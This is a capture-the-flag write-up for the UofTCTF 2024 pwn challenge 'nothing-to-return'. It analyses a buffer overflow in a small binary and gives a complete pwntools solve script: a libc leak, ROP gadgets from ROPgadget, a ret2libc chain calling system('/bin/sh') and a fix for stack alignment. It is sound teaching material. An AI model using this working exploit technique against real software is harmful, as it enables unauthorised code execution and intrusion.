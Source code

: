 ```yaml
---
title: ntr
date: 2024-02-21
tags: 
- pwn
- rop
- ret2libc
- author-hartmannsyg
categories: UofTCTF 2024
---
```


## nothing-to-return

written by {% person hartmannsyg %}

We are given a binary and a libc.

{% ccb html:true terminal:true %}
<SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">suwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN><SPAN STYLE="color:#DCDFE4;">~/ctf/uoft</SPAN><SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN><SPAN STYLE="color:#DCDFE4;"> checksec ntr
[</SPAN><SPAN STYLE="color:#61AFEF;">*</SPAN><SPAN STYLE="color:#DCDFE4;">] '/home/suwandi/ctf/uoft/ntr'
    Arch:     amd64-64-little
    RELRO:    </SPAN><SPAN STYLE="color:#E5C07B;">Partial RELRO
</SPAN><SPAN STYLE="color:#DCDFE4;">    Stack:    </SPAN><SPAN STYLE="color:#E06C75;">No canary found
</SPAN><SPAN STYLE="color:#DCDFE4;">    NX:       </SPAN><SPAN STYLE="color:#98C379;">NX enabled
</SPAN><SPAN STYLE="color:#DCDFE4;">    PIE:      </SPAN><SPAN STYLE="color:#E06C75;">No PIE (0x3fe000)
</SPAN><SPAN STYLE="color:#DCDFE4;">    RUNPATH:  </SPAN><SPAN STYLE="color:#E06C75;">b'.'</SPAN>
{% endccb %}

<details>
<summary>my strange method to get libc working</summary>

Install the latest pre-release version of pwntools:
{% ccb terminal:true lang:shell %}
python3 -m pip install --upgrade --pre pwntools
{% endccb %}
then in the solve script:
```py
version = 'libc.so.6'
library_path = libcdb.download_libraries(version)
if library_path:
    elf = context.binary = ELF.patch_custom_libraries(elf.path, library_path)
    libc = elf.libc
else:
    libc = ELF(version)
```
</details>

{% ccb html:true terminal:true %}
<SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">suwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN><SPAN STYLE="color:#DCDFE4;">~/ctf/uoft</SPAN><SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN><SPAN STYLE="color:#DCDFE4;"> ./ntr_remotelibc
printf is at 0x7f318b125250
Hello give me an input
Input size:
16
Enter your input:
aaaaaaaaaaaaaaaa
I'm returning the input:
aaaaaaaaaaaaaaa</SPAN>
{% endccb %}

If we open this up in ghidra:
```c
undefined8 main(EVP_PKEY_CTX *param_1)

{
  char buffer [64];
  
  init(param_1);
  printf("printf is at %p\n",printf);
  puts("Hello give me an input");
  get_input(buffer);
  puts("I\'m returning the input:");
  puts(buffer);
  return 0;
}
```
```c
void get_input(void *end_location)

{
  size_t size;
  char *ptr;
  
  puts("Input size:");
  __isoc99_scanf("%lu[^\n]",&size);
  ptr = (char *)calloc(1,size);
  fgets(ptr,(int)size,stdin);
  puts("Enter your input:");
  fgets(ptr,(int)size,stdin);
  memcpy(end_location,ptr,size);
  free(ptr);
  return;
}
```

What this program does is:
- leak printf location (this is our libc leak)
- ask for input size
- read specified number of bytes into `buffer` (in main())

We essentially have a **buffer overflow** as we can input more than the buffer can store.
- No canary found so we don't need a canary leak
- NX enabled so we have to ROP our way using gadgets to shell
- The binary is too small so we need to use gadgets within the libc provided

{% ccb terminal:true html:true %}
<SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">suwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN><SPAN STYLE="color:#DCDFE4;">~/ctf/uoft</SPAN><SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN><SPAN STYLE="color:#DCDFE4;"> ROPgadget --binary ./libc.so.6 | grep 'pop rdi ; ret'
0x00000000000a1457 : inc dword ptr [rbp + 0x158d48c0] ; </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;">f 0xc
0x0000000000028265 : </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret
</SPAN><SPAN STYLE="color:#DCDFE4;">0x000000000003df6d : </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;"> 0x16
0x000000000005a47d : </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;"> 0xffff
0x00000000000a145d : </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;">f 0xc
0x00000000000a1459 : ror byte ptr [rax - 0x73], 0x15 ; </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;">f 0xc</SPAN>
{% endccb %}

To run system("/bin/sh"), we need:

1. system

We need to know if system() is in the libc:

{% ccb terminal:true html:true %}
<span class="meta">&gt;&gt;&gt; </span><span class="keyword">from</span> pwn <span class="keyword">import</span> *
<span class="meta">&gt;&gt;&gt; </span>libc = ELF(<span class="string">'./libc.so.6'</span>)
[</SPAN><SPAN STYLE="color:#61AFEF;">*</SPAN><SPAN STYLE="color:#DCDFE4;">] '/home/suwandi/ctf/uoft/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    </SPAN><SPAN STYLE="color:#98C379;">Full RELRO
</SPAN><SPAN STYLE="color:#DCDFE4;">    Stack:    </SPAN><SPAN STYLE="color:#98C379;">Canary found
</SPAN><SPAN STYLE="color:#DCDFE4;">    NX:       </SPAN><SPAN STYLE="color:#98C379;">NX enabled
</SPAN><SPAN STYLE="color:#DCDFE4;">    PIE:      </SPAN><SPAN STYLE="color:#98C379;">PIE enabled
</SPAN><span class="meta">&gt;&gt;&gt; </span><span class="built_in">hex</span>(libc.sym[<span class="string">'system'</span>])
<span class="string">'0x4f760'</span>
{% endccb %}


2. "/bin/sh" string in the libc

{% ccb terminal:true lang:py %}
>>> hex(next(libc.search(b'/bin/sh')))
'0x19fe34'
{% endccb %}

Yep, there is a "/bin/sh" in the libc

3. "pop rdi; ret" gadget so that we can input that string into

{% ccb terminal:true html:true highlight:4 %}
<SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">suwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN><SPAN STYLE="color:#DCDFE4;">~/ctf/uoft</SPAN><SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN><SPAN STYLE="color:#DCDFE4;"> ROPgadget --binary ./libc.so.6 | grep 'pop rdi ; ret'
0x00000000000a1457 : inc dword ptr [rbp + 0x158d48c0] ; </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;">f 0xc
0x0000000000028265 : </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret
</SPAN><SPAN STYLE="color:#DCDFE4;">0x000000000003df6d : </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;"> 0x16
0x000000000005a47d : </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;"> 0xffff
0x00000000000a145d : </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;">f 0xc
0x00000000000a1459 : ror byte ptr [rax - 0x73], 0x15 ; </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;">f 0xc</SPAN>
{% endccb %}

So let's create our script:
{% ccb lang:py gutter1:1-4,S,13-32 caption:solve.py %}
from pwn import *

context.binary = elf = ELF('./ntr')
context.log_level = 'debug'
//SKIP_LINE(5-12 #Code for loading the libc)
# p = process([elf.path])
p = gdb.debug([elf.path])

p.recvuntil(b"printf is at ")
printf_leak = p.recvline()
printf_leak = int(printf_leak, 16)

libc_base = printf_leak - libc.sym['printf']
log.info('libc_base ' + hex(libc_base))

pop_rdi = libc_base + 0x0000000000028265
binsh = libc_base + next(libc.search("/bin/sh"))
system = libc_base + libc.sym['system']

payload = b'a'*72 + p64(pop_rdi) + p64(binsh) + p64(system)

p.sendline(str(len(payload)).encode())
p.sendline(payload)

p.interactive()
{% endccb %}

{% ccb terminal:true html:true highlight:9 %}
<SPAN STYLE="color:#DCDFE4;">Program received signal SIGSEGV, Segmentation fault.
</SPAN><SPAN STYLE="color:#61AFEF;">0x00007f1f1063a44b </SPAN><SPAN STYLE="color:#DCDFE4;">in </SPAN><SPAN STYLE="color:#E5C07B;">?? </SPAN><SPAN STYLE="color:#DCDFE4;">()
   from </SPAN><SPAN STYLE="color:#98C379;">target:/home/suwandi/.cache/.pwntools-cache-3.11/libcdb_libs/316d0d3666387f0e8f
b98773f51aa1801027c5ab/libc.so.6
</SPAN><SPAN STYLE="color:#DCDFE4;">LEGEND: </SPAN><SPAN STYLE="color:#E5C07B;">STACK </SPAN><SPAN STYLE="color:#DCDFE4;">| </SPAN><SPAN STYLE="color:#61AFEF;">HEAP </SPAN><SPAN STYLE="color:#DCDFE4;">| </SPAN><SPAN STYLE="color:#E06C75;">CODE </SPAN><SPAN STYLE="color:#DCDFE4;">| </SPAN><SPAN STYLE="color:#C678DD;">DATA </SPAN><SPAN STYLE="color:#DCDFE4;">| RWX | RODATA
</SPAN><SPAN STYLE="color:#61AFEF;">────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────
</SPAN>...
<SPAN STYLE="color:#61AFEF;">─────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────
</SPAN><SPAN STYLE="color:#98C379;"> ►</SPAN><SPAN STYLE="color:#DCDFE4;"> </SPAN><SPAN STYLE="color:#98C379;">0x7f1f1063a44b</SPAN><SPAN STYLE="color:#DCDFE4;">    </SPAN><SPAN STYLE="color:#AFD700;">movaps </SPAN><SPAN STYLE="color:#5FD7FF;">xmmword ptr </SPAN><SPAN STYLE="color:#DCDFE4;">[</SPAN><SPAN STYLE="color:#5FD7FF;">rsp </SPAN><SPAN STYLE="color:#DCDFE4;">+ </SPAN><SPAN STYLE="color:#AF87FF;">0x50</SPAN><SPAN STYLE="color:#DCDFE4;">], </SPAN><SPAN STYLE="color:#5FD7FF;">xmm0
</SPAN><SPAN STYLE="color:#DCDFE4;">   0x7f1f1063a450    </SPAN><SPAN STYLE="color:#AFD700;">call</SPAN><SPAN STYLE="color:#DCDFE4;">   </SPAN><SPAN STYLE="color:#AF87FF;">posix_spawn                </SPAN><SPAN STYLE="color:#DCDFE4;">&lt;</SPAN><SPAN STYLE="color:#E06C75;">posix_spawn</SPAN><SPAN STYLE="color:#DCDFE4;">&gt;

   0x7f1f1063a455    </SPAN><SPAN STYLE="color:#AFD700;">mov    </SPAN><SPAN STYLE="color:#5FD7FF;">rdi</SPAN><SPAN STYLE="color:#DCDFE4;">, </SPAN><SPAN STYLE="color:#5FD7FF;">rbx
</SPAN><SPAN STYLE="color:#DCDFE4;">   0x7f1f1063a458    </SPAN><SPAN STYLE="color:#AFD700;">mov    </SPAN><SPAN STYLE="color:#5FD7FF;">r12d</SPAN><SPAN STYLE="color:#DCDFE4;">, </SPAN><SPAN STYLE="color:#5FD7FF;">eax
</SPAN><SPAN STYLE="color:#DCDFE4;">   0x7f1f1063a45b    </SPAN><SPAN STYLE="color:#AFD700;">call</SPAN><SPAN STYLE="color:#DCDFE4;">   </SPAN><SPAN STYLE="color:#AF87FF;">posix_spawnattr_destroy                </SPAN><SPAN STYLE="color:#DCDFE4;">&lt;</SPAN><SPAN STYLE="color:#E06C75;">posix_spawnattr_des
troy</SPAN><SPAN STYLE="color:#DCDFE4;">&gt;

   0x7f1f1063a460    </SPAN><SPAN STYLE="color:#AFD700;">test   </SPAN><SPAN STYLE="color:#5FD7FF;">r12d</SPAN><SPAN STYLE="color:#DCDFE4;">, </SPAN><SPAN STYLE="color:#5FD7FF;">r12d
</SPAN><SPAN STYLE="color:#DCDFE4;">   0x7f1f1063a463    </SPAN><SPAN STYLE="color:#AFD700;">je</SPAN><SPAN STYLE="color:#DCDFE4;">     </SPAN><SPAN STYLE="color:#E06C75;">0x7f1f1063a558                </SPAN><SPAN STYLE="color:#DCDFE4;">&lt;</SPAN><SPAN STYLE="color:#E06C75;">0x7f1f1063a558</SPAN><SPAN STYLE="color:#DCDFE4;">&gt;

   0x7f1f1063a469    </SPAN><SPAN STYLE="color:#AFD700;">mov    </SPAN><SPAN STYLE="color:#5FD7FF;">dword ptr </SPAN><SPAN STYLE="color:#DCDFE4;">[</SPAN><SPAN STYLE="color:#5FD7FF;">rsp </SPAN><SPAN STYLE="color:#DCDFE4;">+ </SPAN><SPAN STYLE="color:#AF87FF;">8</SPAN><SPAN STYLE="color:#DCDFE4;">], </SPAN><SPAN STYLE="color:#AF87FF;">0x7f00
</SPAN><SPAN STYLE="color:#DCDFE4;">   0x7f1f1063a471    </SPAN><SPAN STYLE="color:#AFD700;">xor    </SPAN><SPAN STYLE="color:#5FD7FF;">eax</SPAN><SPAN STYLE="color:#DCDFE4;">, </SPAN><SPAN STYLE="color:#5FD7FF;">eax
</SPAN><SPAN STYLE="color:#DCDFE4;">   0x7f1f1063a473    </SPAN><SPAN STYLE="color:#AFD700;">mov    </SPAN><SPAN STYLE="color:#5FD7FF;">edx</SPAN><SPAN STYLE="color:#DCDFE4;">, </SPAN><SPAN STYLE="color:#AF87FF;">1
</SPAN><SPAN STYLE="color:#DCDFE4;">   0x7f1f1063a478    </SPAN><SPAN STYLE="color:#AFD700;">lock cmpxchg </SPAN><SPAN STYLE="color:#5FD7FF;">dword ptr </SPAN><SPAN STYLE="color:#DCDFE4;">[</SPAN><SPAN STYLE="color:#5FD7FF;">rip </SPAN><SPAN STYLE="color:#DCDFE4;">+ </SPAN><SPAN STYLE="color:#AF87FF;">0x1f1060</SPAN><SPAN STYLE="color:#DCDFE4;">], </SPAN><SPAN STYLE="color:#5FD7FF;">edx
</SPAN><SPAN STYLE="color:#61AFEF;">───────────────────────────────────────[ STACK ]───────────────────────────────────────
</SPAN>...
<SPAN STYLE="color:#61AFEF;">─────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────
</SPAN>...
<SPAN STYLE="color:#61AFEF;">───────────────────────────────────────────────────────────────────────────────────────</SPAN>
{% endccb %}

We have a movaps stack alignment issue. To fix this, we have to find a ret gadget:

{% ccb terminal:true html:true %}
<SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">suwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN><SPAN STYLE="color:#DCDFE4;">~/ctf/uoft</SPAN><SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN><SPAN STYLE="color:#DCDFE4;"> ROPgadget --binary ./libc.so.6 | grep ": ret$"
0x000000000002648d </SPAN><SPAN STYLE="color:#E06C75;">: ret</SPAN>
{% endccb %}

{% ccb lang:py gutter1:1-4,S,13-33 caption:solve.py diff_add:16,21 %}
from pwn import *

context.binary = elf = ELF('./ntr')
# context.log_level = 'debug'
//SKIP_LINE(5-12 #Code for loading the libc)
p = process([elf.path])
# p = gdb.debug([elf.path])

p.recvuntil(b"printf is at ")
printf_leak = p.recvline()
printf_leak = int(printf_leak, 16)

libc_base = printf_leak - libc.sym['printf']
log.info('libc_base ' + hex(libc_base))

ret = libc_base + 0x000000000002648d
pop_rdi = libc_base + 0x0000000000028265
binsh = libc_base + next(libc.search("/bin/sh"))
system = libc_base + libc.sym['system']

payload = b'a'*72 + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)

p.sendline(str(len(payload)).encode())
p.sendline(payload)

p.interactive()
{% endccb %}

And we get shell!

We have succesfully ntred